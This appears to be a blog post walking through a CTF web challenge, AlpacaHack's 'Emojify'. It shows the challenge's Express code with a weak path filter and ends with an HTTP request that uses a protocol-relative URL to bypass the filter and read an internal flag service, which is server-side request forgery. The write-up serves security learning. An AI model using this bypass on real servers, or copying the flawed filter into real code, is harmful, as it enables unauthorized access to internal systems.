


+++
date = '2025-12-03T16:30:43+02:00'
draft = false
title = 'Alpaca Hack Emojify'
+++
# Alpaca Hack Emojify
### category : web
### difficulty : medium
### url to challenge : https://alpacahack.com/daily/challenges/emojify


This is alapaca hack daily web ctf lets dive in and see whats going on


we see above that the application looks, basic the functionality is that
when we type something we get the emoji of what we wrote displayed

i decided to dig in with caido and look at the traffic


i decided to test the api path for directory traversal vulnerability
seems like it works, good for now lets see how do we continute from here.

### source code analysis 
```javascript
import express from "express";
import fs from "node:fs";

const waf = (path) => {
  if (typeof path !== "string") throw new Error("Invalid types");
  if (!path.startsWith("/")) throw new Error("Invalid 1");
  if (!path.includes("emoji")) throw new Error("Invalid 2");
  return path;
};

express()
  .get("/", (req, res) => res.type("html").send(fs.readFileSync("index.html")))
  .get("/api", async (req, res) => {
    try {
      const path = waf(req.query.path);
      const url = new URL(path, "http://backend:3000");
      const emoji = await fetch(url).then((r) => r.text());
      res.send(emoji);
    } catch (err) {
      res.send(err.message);
    }
  })
  .listen(3000);
```
some kind of basic WAF, lets analyze the code we see that the url works like this : const url = new URL(path, "http://backend:3000"); 
reading the docs https://developer.mozilla.org/en-US/docs/Web/API/URL

we see 
```javascript
const url = new URL("../cats", "http://www.example.com/dogs");
console.log(url.hostname); // "www.example.com"
console.log(url.pathname); // "/cats"
```
for every input we give we will get something like 
```javascript
path = /emoji/dog/../../
// we will get still
url = http://backend:3000/
```
how do we override this URL this to get the flag ?

```javascript
import express from "express";

const FLAG = process.env.FLAG ?? "Alpaca{REDACTED}";

express()
  // http://secret:1337/flag
  .get("/flag", (req, res) => res.send(FLAG))
  .listen(1337);

```

### solution and payload
looking at the WAF rules,
the path has to start with '/'
to has to contain 'emoji',
and must be a string.
and also we have to override the URL

the answer is to use Protocol-Relative URL , which starts with // so we can escape the filtering,

my final payload is this: 
```javascript
GET /api?path=//secret:1337/flag/emoji/dog/../.. HTTP/1.1
Host: 34.170.146.252:31211
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://34.170.146.252:31211/
Connection: keep-alive
Priority: u=0
```
which should get you the flag ALAPACA{...}